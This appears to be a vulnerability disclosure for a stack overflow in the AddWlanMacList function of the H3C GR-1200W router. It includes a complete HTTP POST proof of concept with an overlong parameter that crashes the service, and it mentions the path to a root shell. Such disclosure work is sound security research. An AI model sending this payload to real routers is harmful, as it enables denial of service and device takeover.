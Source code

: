 # H3C GR-1200W (<=MiniGRW1A0V100R006) has a stack overflow vulnerability

## Overview

- Manufacturer's website information：https://www.h3c.com/
- Firmware download address ： https://www.h3c.com/cn/d_202102/1383837_30005_0.htm

### Product Information

H3C GR-1200W MiniGRW1A0V100R006 router, the latest version of simulation overview：

![image-20220724213031606](img/image-20220724213031606.png)

## Vulnerability details

The H3C GR-1200W (<=MiniGRW1A0V100R006)  router was found to have a stack overflow vulnerability in the AddWlanMacList function. An attacker can obtain a stable root shell through a carefully constructed payload.

![image-20220724213415656](img/image-20220724213415656.png)

In the `AddWlanMacList` function, the `param` we entered is formatted using the `sscanf` function and in the form of `%u;%u;%[^;];%[^;];`. This greedy matching mechanism is not secure, as long as the size of the data we enter is larger than the size of `V7` or `V8`, it will cause a stack overflow.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.124:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=AddWlanMacList&param=1;2;AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA;
```

![image-20220724220946426](img/image-20220724215411671.png)

The picture above shows the process information before we send poc.

![image-20220724221039594](img/image-20220724215659752.png)

In the picture above, we can see that the PID has changed since we sent the POC.

![image-20220724220011366](img/image-20220724220011366.png)

The picture above is the log information.

![image-20220624230619282](img/image-20220624230619282.png)

By calculating offsets, we can compile special data to refer to denial-of-service attacks(DOS).

![image-20220724220055672](img/image-20220724220055672.png)

Finally, you also can write exp to get a stable root shell.

